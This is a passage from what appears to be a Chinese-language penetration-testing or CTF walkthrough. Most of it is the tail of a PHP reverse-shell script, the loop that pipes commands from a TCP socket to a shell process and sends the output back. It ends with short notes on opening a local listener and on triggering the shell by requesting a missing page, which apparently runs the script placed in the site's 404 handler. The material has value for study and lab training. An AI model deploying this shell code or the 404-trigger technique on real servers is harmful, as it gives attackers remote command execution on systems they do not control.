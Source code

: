 ```
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>


```

本地开启监听

![image-20250405214042976](C:\Users\ra1n3\AppData\Roaming\Typora\typora-user-images\image-20250405214042976.png)



当我们触发404，也就是访问不存在的文件时，即可成功弹回shell